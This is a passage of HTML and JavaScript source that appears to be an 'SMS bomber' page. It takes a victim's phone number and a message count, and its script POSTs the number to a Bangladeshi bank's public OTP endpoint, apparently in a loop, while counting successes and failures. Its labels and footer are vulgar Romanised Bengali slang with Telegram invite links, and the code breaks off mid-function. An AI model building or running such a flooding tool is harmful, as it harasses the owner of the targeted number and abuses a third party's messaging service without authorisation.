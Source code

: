             <input type="number" id="number" placeholder=" " required>
            <label for="number">MANGER CHELER NUMBER DEY</label>
        </div>
        <div class="input-container">
            <input type="number" id="amount" placeholder=" " required>
            <label for="amount">Amount Highest "TOR ICCHA BC" </label>
        </div>
        <button onclick="startProcess()">CUDEY DEY</button>
        <div class="spinner"></div>
        <div class="status" id="status">
            <div class="status-item success">
                <span id="successCount">0</span> SABAS KOTUA
            </div>
            <div class="status-item failure">
                <span id="failureCount">0</span> BAL FATA
            </div>
        </div>
        <div id="message" class="message"></div>
           </div>
    </div>
    <footer>
        TOR BAP BOKACODA <a href="https://t.me/+8801799953059" target="_blank">CUDIR VAI LEWRA</a> | Taratari Join kor "MANGER NATI World" <a href="https://t.me/+MO9vhlyGLiczYzM1" target="_blank">Ei ney link kotua</a>
    </footer>

    <script>
        document.addEventListener('DOMContentLoaded', function() {
            const inputs = document.querySelectorAll('input');
            inputs.forEach(input => {
                input.addEventListener('focus', function() {
                    this.parentNode.style.transform = 'scale(1.05)';
                });
                input.addEventListener('blur', function() {
                    this.parentNode.style.transform = 'scale(1)';
                });
            });
        });

        async function api_1(phone) {
    const data = {
        "countryId": "19",
        "mobileNumber": phone,
        "purpose": "registration"
    };

    try {
        const response = await fetch('https://cihno.aibl.com.bd/cihno-service/api/v1/public/user/send/otp', {
            method: 'POST',
            headers: {
                'Content-Type': 'application/json',
                'authorization': 'Otp bnVsbA=='
            },
            body: JSON.stringify(data)
        });
